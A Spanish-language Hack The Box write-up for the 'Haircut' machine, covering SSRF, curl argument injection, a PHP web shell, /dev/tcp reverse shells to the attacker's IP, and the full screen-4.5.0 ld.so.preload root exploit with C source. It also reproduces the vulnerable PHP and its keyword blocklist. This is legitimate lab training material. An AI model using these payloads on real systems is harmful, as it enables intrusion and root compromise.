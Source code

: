 ```yaml
---
layout: single
title: Haircut - Hack The Box
excerpt: "CTF clásico de HTB, SSRF y busqueda de como explotar un comando SUID en el sistema"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-haircut/haircut1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - SUID binary 
---
```


# 10.10.10.24 - Haircut
![](/assets/images/htb-haircut/haircut1.png)

------------
# Part 1: Enumeración

Puertos abiertos 22(shh) y 80(http)

```console
└─$ whatweb http://10.10.10.24
HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], IP[10.10.10.24], Title[HTB Hairdresser]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.24/FUZZ'
000000150:   301        7 L      13 W       194 Ch      "uploads"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://10.10.10.24/FUZZ.php'
000025043:   200        19 L     41 W       446 Ch      "exposed"
```
El fuzzing por subdominios no resuelve.
![](/assets/images/htb-haircut/haircut2.PNG)

**/uploads** -> 403 forbidden
**/exposed.php**

Hay una web que dice que que así "Pon la dirección de la peluquería que te gustaria visitar. Por ejemplo: http://localhost/test.html"
![](/assets/images/htb-haircut/haircut3.PNG)

------------
# Part 2: SSRF

Hay un panel que pone "http://localhost/test.html" y en un iframe nos muestra una foto.
Si por curiosidad buscamos "http://10.10.10.24/test.html" sale la misma foto.

En un iframe la web muestra contenido propio, (es como la máquina forge). Encima al ser localhost, se hace
peticiones a si mismo, por lo que puede mostrar contenido retringido al exterior. Esto se llama "SSRF".

La peticion es ```/POST a /exposed.php con los parametros formurl=http://localhost/test.html&submit=Go```

## Internal Port Discovery

Por http se puede acceder a puertos internos -> http://IP:puerto
```console
└─$ wfuzz -X POST --hw=83,95 -z range,0000-9999 -d "formurl=http://localhost:FUZZ&submit=Go" http://10.10.10.24/exposed.php
000000023:   200        25 L     97 W       898 Ch      "0022"
000000081:   200        29 L     100 W      932 Ch      "0080"
000003307:   200        22 L     92 W       909 Ch      "3306"
```
El puerto 3306 es sql, por lo que habrá una base de datos corriendo en algun lado.

## Fuzzing de subdominios
```console
└─$ wfuzz -X POST -w $(locate subdomains-top1million-5000.txt) -d "formurl=http://FUZZ.localhost&submit=Go" http://10.10.10.24/exposed.php
000000007:   200        22 L     319 W      2340 Ch     "webdisk"
000000003:   200        22 L     319 W      2336 Ch     "ftp"
000000001:   200        22 L     319 W      2336 Ch     "www"
000000006:   200        22 L     307 W      2258 Ch     "smtp"
000000008:   200        22 L     307 W      2257 Ch     "pop"
000000015:   200        22 L     319 W      2335 Ch     "ns"
000000023:   200        22 L     319 W      2338 Ch     "forum"
000000039:   200        22 L     319 W      2337 Ch     "dns2"
000000041:   200        22 L     307 W      2258 Ch     "dns1"
000000038:   200        22 L     307 W      2258 Ch     "demo"
```

Aun así probando con cualquiera de estos se queda colgado.

```console
└─$ wfuzz -X POST --hw=98,53,110 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -d "formurl=http://localhost/FUZZ/&submit=Go" http://10.10.10.24/exposed.php
000000150:   200        29 L     96 W       966 Ch      "uploads"
000002010:   200        19 L     43 W       471 Ch      "'"  
```
------------
# Part 3: RFI

Si en vez de apuntar al localhost, apuntamos a nuestro servidor ```sudo python3 -m http.server 80``` -> ```http://10.10.14.16```

Intentamos subir un index.html pero no lo ejecuta
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Como el comando que está ejecutando el servidor es un "curl" (se ve por "% Total % Received % Xferd Average...")

```<?php system($_REQUEST['cmd']); ?>```

Hay una opción en curl para depositar archivos **-o**:
```http://10.10.14.16/cmd.php -o /var/www/html/uploads/cmd.php```

```console
└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'"
```
------------
# Part 4: En el sistema

Recibimos una shell por el puerto 443.

- Usuarios del Sistema ->  root maria
- SUIDs -> /usr/bin/screen-4.5.0

Hay un exploit para eso:

1. Crea la librería " ./libhax.so"
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```console
└─$ gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c 
```

1. Crea el binario rootshell (spawnea una sh manteniendo privilegios, una especie de "bash -p")
```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```console
└─$ gcc -o ./rootshell ./rootshell.c
```

Una vez eso se siguen los pasos del exploit
```console
www-data@haircut:/tmp$ curl http://10.10.14.16/libhax.so -O
www-data@haircut:/tmp$ curl http://10.10.14.16/rootshell -O
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/tmp$ screen -ls
www-data@haircut:/tmp$ ./rootshell
# whoami
root
```

------------
# Extra

El código que hacia el curl
```php
<?php
	if(isset($_POST['formurl'])){
		echo "<p>Requesting Site...</p>";
		$userurl=$_POST['formurl'];   // $usrurl es lo que pasa el usaurio por el panel.
		$naughtyurl=0;			// Flag que ve si la url es "sucia"
		$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']'); // Caracteres especiales
		foreach($disallowed as $naughty){ 
			if(strpos($userurl,$naughty) !==false){   // Si cada uno de esos caracteres sale en la url, no ejecutamos nada.
				echo $naughty.' is not a good thing to put in a URL';
				$naughtyurl=1;}}
		if($naughtyurl==0){    // Si pasa esta vaga sanitización...
			echo shell_exec("curl ".$userurl." 2>&1");}}    // El sistema le hace un curl
?>
```
Lo de los caracteres es para que no se pueda ejecutar comandos tipo ```curl http://localhost/test.html; whoami```